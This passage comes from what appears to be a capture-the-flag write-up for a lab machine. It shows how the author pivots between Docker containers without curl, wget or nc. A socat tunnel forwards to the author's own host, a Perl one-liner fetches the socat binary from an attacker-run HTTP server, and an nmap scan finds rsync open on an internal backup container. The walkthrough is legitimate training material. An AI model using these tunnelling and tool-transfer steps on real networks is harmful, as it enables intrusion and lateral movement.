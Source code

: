 To move to the next steps, I’ll want to get files uploaded to www, which is challenging without `curl`, `wget`, or `nc`. Here’s how I do it:

Start a tunnel on nodered that will listen (in this case on 8080) and forward that to my host:

```

# /tmp/s TCP-LISTEN:8080,fork TCP:10.10.14.14:8888 &

```

Use `perl` to request file:

```

# perl -e 'use File::Fetch; my $url = "http://172.19.0.3:8080/socat"; my $ff = File::Fetch->new(uri => $url); my $file = $ff->fetch() or die $ff->error;'

```

Serve from workstation:

```

root@kali# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.10.94 - - [25/Jul/2018 08:32:32] "GET /socat HTTP/1.1" 200 -

```

## backup Container

### Enumeration

The backup script not only provides a path to root on www, but it also tells me about another host, backup. If I `ping -c 1 backup`, I’ll see it resolves to 127.20.0.2. I’ll upload `nmap` to www and see what’s open:

```

# ./nmap -p- --min-rate 5000 172.20.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2018-07-25 12:36 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.2)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000034s latency).
Not shown: 65534 closed ports
PORT    STATE SERVICE
873/tcp open  rsync
MAC Address: 02:42:AC:14:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 22.23 seconds

```
